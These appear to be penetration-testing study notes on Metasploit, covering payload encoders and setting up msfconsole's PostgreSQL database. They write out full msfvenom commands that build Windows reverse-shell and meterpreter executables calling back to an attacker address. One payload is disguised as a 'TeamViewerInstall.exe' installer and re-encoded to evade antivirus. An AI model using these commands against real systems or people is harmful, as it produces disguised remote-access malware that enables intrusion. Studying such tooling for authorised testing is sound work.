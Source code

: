 The different encoders:
x64 	x86 	sparc 	ppc 	mips

We will always need to encode our payload according to our target architecture
`msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\x00' -f perl -e x86/shikata_ga_nai`
or with `msvenom`
without encoding:
`msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl`

w. encoding:
`msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai`

read more about [shikata_ga_nai encoding](https://hatching.io/blog/metasploit-payloads2/)

we can select encoders with: `show encoders` & `set encoders`

`msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe`

If we were to encode an executable payload only once with SGN, it would most likely be detected by most antiviruses today. Let's delve into that for a moment. Picking up msfvenom, the subscript of the Framework that deals with payload generation and Encoding schemes, we have the following input:
One better option would be to try running it through multiple iterations of the same Encoding scheme:
`msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe`

msf-virustotal that can use with an API key to analyze our payloads. However this requires free registration on virustotal. 
`msf-virustotal -k <API key> -f TeamViewerInstall.exe`

# Databases
`Databases` in msfconsole are used to keep track of the results. When dealing with more complex networks, it's to no surprise we need to store. 

### Setting up the database
`sudo service postgresql status`
`sudo systemctl start postgresql`

Initiate the database:
`sudo msfdb init`

To update the database `apt update` or `sudo msfdb init`
`sudo msfdb status` - check status

### Connect to the initiated database
`sudo msfdb run`

Reinitiate:
`msfdb reinit`
`cp /usr/share/metasploit-framework/config/database.yml ~/.msf4/`
`sudo service postgresql restart`
`msfconsole -q`
